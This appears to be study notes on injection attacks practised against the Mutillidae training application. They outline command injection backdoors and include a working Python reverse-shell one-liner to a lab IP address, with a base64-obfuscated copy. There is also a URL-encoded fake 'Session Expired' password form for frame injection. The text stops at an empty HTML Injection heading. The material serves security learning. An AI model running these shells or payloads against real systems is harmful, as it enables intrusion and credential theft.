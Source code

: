 <h1>Other forms of Injection</h1>
<p>
	The purpose of injection remains the same , injecting into an interpreted context for causing the application to perform an unintended functionality.
</p>
<ol>
<li><h2>Command Injection:</h2>
<p> Command injection referes to the attack mechanism in which an attacker can inject any command into the 
underlying OS and compromise the back-end system. Mutillidae for me is hosted on a Linux server, so will be using UNIX commands for the same. Getting shell access on the underlying server system is often the jackpot to any attacker. We can create persistent backdoors with the help of metasploit.
</p>
<ul>
<li>
<h3>Method 1:</h3>
Download a php backdoor via wget using the command injection flaw
And then use that backdoor. 
Catch: /var/www should be writeable
If .htacess is modifiable, we can modify .htacess and make /var/www writeable
</li>
<li><h3>Method 2:Netcat shell</h3>
Use Netcat with <b>"-e"</b> option to allow for command execution after connect.
The -e executes whatever we place in after the parameter. In this case we want to spawn a 
bash shell on tcp connect. 
However, this option is not present on many traditional netcat installations
What to do in this case?
Well we can go for a custom shell in a language of our choice
</li> 
<li><h3>Method 3:Python shell(any language installed on backend)</h3>
Set up a listener on attacker machine
<pre>
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.13.150',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
</pre>
For obfuscation , we could also base64 encode and decode string
python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\n4oCYMTkyLjE2OC4xMy4xNTDigJksOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Q\nb3BlbihzLnJlY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0\nZGVycj1zdWJwcm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Mu\nc3Rkb3V0LnJlYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"
</li>
<li><h3>Method-4: Meterpreter Shell</h3>
Deploying a Meterpreter shell is one way to create a well obfuscated persisitent backdoor to any OS we have shell acess on.How to create and deploy a meterpreter shell is a different and vast topic altogether.
</li>
</ul>
<li><h2>Frame Source injection</h2>
	Similar to a Remote file inclusion vulnerability. We can include any special characters once they  are URL encoded to cause an XSS attack on the site. We can include any iframe of our choice such as a malicious form and then steal user credentials or make cross-domain requests. We could inject a remote page into the src of the iframe.
	<p> iframe sources should never be allowed to be controlled by user input, as the iframe can load potential malware from other site. There are other security risks as well. I found this blog very helpful.
	<a href="https://stackoverflow.com/questions/7289139/why-are-iframes-considered-dangerous-and-a-security-risk?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa">Why Iframes pose a security risk?</a>
	We can corrupt the iframe src to load xss attacking page from our server or even an AJAX request to our site. We can inject this to the vulnerable parameter and let the fun unroll, or even a remote html page from the attacking server of our choice. 
	<pre>
		%3Ch1%3ESession+Expired%3C%2Fh1%3E%0D%0A%3Cform+action%3D%22Marale%22%3E%0D%0A%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22password%22%2F%3E%0D%0A%3Cinput+name%3D%22name%22+placeholder%3D%22name%22%2F%3E%0D%0A%3Cinput+type%3D%22submit%22%2F%3E%0D%0A%3C%2Fform%3E%3C%21--
	</pre> 
</li>
<li><h2>HTML Injection </h2>
</li>


